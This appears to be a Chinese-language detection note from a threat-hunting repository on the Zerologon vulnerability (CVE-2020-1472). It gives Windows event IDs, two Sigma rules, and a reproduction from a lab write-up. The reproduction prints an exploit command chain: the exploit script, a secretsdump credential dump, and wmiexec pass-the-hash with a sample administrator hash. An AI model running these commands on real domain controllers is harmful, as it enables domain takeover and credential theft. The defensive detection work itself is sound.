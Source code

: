 # T1134-001-win-CVE-2020-1472

## 来自ATT&CK的描述

攻击者可能会复制，然后冒充另一个用户的令牌以提升特权并绕过访问控制。攻击者可以创建一个新的访问令牌，该令牌使用来复制现有令牌DuplicateToken(Ex)。然后可以将该令牌用于ImpersonateLoggedOnUser允许调用线程模拟已登录用户的安全上下文，或者SetThreadToken用于将模拟令牌分配给线程。

当攻击者具有要将新令牌分配给的特定现有过程时，他们可以执行此操作。例如，当目标用户在系统上具有非网络登录会话时，这可能很有用。

## 测试案例

2020年9月11日，安全研究员Secura发布了公告，阐明了Microsoft在2020年8月修补的漏洞细节（CVE-2020-1472）。该漏洞也称为“Zerologon”，CVSS评分为10.0，号称3秒撸域控，危害严重。攻击者在通过NetLogon（MS-NRPC）协议与AD域控建立安全通道时，可利用该漏洞将AD域控的计算机账号密码置为空，从而控制域控服务器。本文将从“Zerologon”漏洞原理、漏洞复现、威胁狩猎三个维度对该漏洞进行分析。

具体可参考安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测日志

Windows 系统日志、全流量

此外，在8月份的补丁中，Microsoft添加了五个新的event ID，以通知易受攻击的Netlogon连接：

1、允许存在漏洞的Netlogon安全通道连接时，将生成event ID 5829

2、拒绝易受攻击的Netlogon连接时，将触发event ID 5827和5828

3、允许存在漏洞的Netlogon连接时触发的event ID 5830和5831

如果域控已经安装了补丁，还可以通过以上5个event ID进行威胁狩猎。

## 测试复现

以下模拟测试过程来自安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

实验环境：

```yml
域控：Winserver2012 R2（x64）
IP：10.10.10.10
hostname：DC
域：de1ay.com
```

![windows域控](https://p4.ssl.qhimg.com/t01d53a30398ec357a2.jpg)

```yml
攻击机：ubuntu1604（x64）
IP：10.10.10.111
```

![hacker-pc](https://p4.ssl.qhimg.com/t019275a00ca38b1d6b.jpg)

运行exp脚本，成功将AD域控的机器账户DC的密码置换成空：

```yml
python3 cve-2020-1472-exploit.py  DC 10.10.10.10
```

![hacking-1](https://p0.ssl.qhimg.com/t01f402a9c7c4c3b532.jpg)

此时域控服务器账户密码为空，同等于已知密码，可以导出域内所有用户凭据：

```yml
python3 secretsdump.py de1ay/DC\$@10.10.10.10 -no-pass
```

![hacking-2](https://p0.ssl.qhimg.com/t01497ee0714e6f98cc.jpg)

导出hash后，发现DC的hash为31d6cfe0d16ae931b73c59d7e0c089c0，也就是空密码，同时获得了域管administrator的hash，利用administrator的hash拿下域控：

```yml
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24 Administrator@10.10.10.10
```

![hacking-3](https://p5.ssl.qhimg.com/t0140b167f7020733c8.jpg)

## 测试留痕

暂无，具体同样可参考安全客文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测规则/思路

### sigma规则

#### 检测规则1

```yml
title: Possible CVE-2020-1472 (zerologon)
description: CVE-2020-1472 (Netlogon Elevation of Privilege Vulnerability) may create thousands of NetrServerReqChallenge & NetrServerAuthenticate3 requests in a short amount of time.
author: SOC Prime Team
date: 2020/09/11
references:
- https://github.com/SecuraBV/CVE-2020-1472
tags:
- attack.lateral_movement
- attack.T1210
logsource:
  product: zeek
  service: dce_rpc
detection:
  selection:
    endpoint: 'netlogon'
    operation: 'NetrServerReqChallenge'
  selection2:
    endpoint: 'netlogon'
    operation: 'NetrServerAuthenticate3'
  timeframe: 1m
  condition: selection or selection2 | count() by src_ip > 100
falsepositives:
- 'unknown'
level: high
```

### 检测规则2

```yml
title: Vulnerable Netlogon Secure Channel Connection Allowed
id: a0cb7110-edf0-47a4-9177-541a4083128a
status: experimental
description: Detects that a vulnerable Netlogon secure channel connection was allowed, which could be an indicator of CVE-2020-1472.
references:
    - https://support.microsoft.com/en-us/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc
author: NVISO
date: 2020/09/15
tags:
    - attack.privilege_escalation
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID:
            - 5829 #具备一定的局限性，需要域控主机打完补丁后，方可使用
    condition: selection
fields:
    - SAMAccountName
falsepositives:
    - Unknown
level: high
```

### 建议

相关规则未在真实环境中进行测试，效果未知。

## 参考推荐

MITRE-ATT&CK-T1134-001

<https://attack.mitre.org/techniques/T1134/001/>

ZeroLogon（CVE-2020-1472）分析与狩猎

<https://www.anquanke.com/post/id/219090#h2-2>

win_vul_cve_2020_1472-sigma

<https://github.com/Neo23x0/sigma/blob/2cd9b794e677a038f3ace5b15d649ca191809846/rules/windows/builtin/win_vul_cve_2020_1472.yml>

zeek官方

<https://zeek.org/>
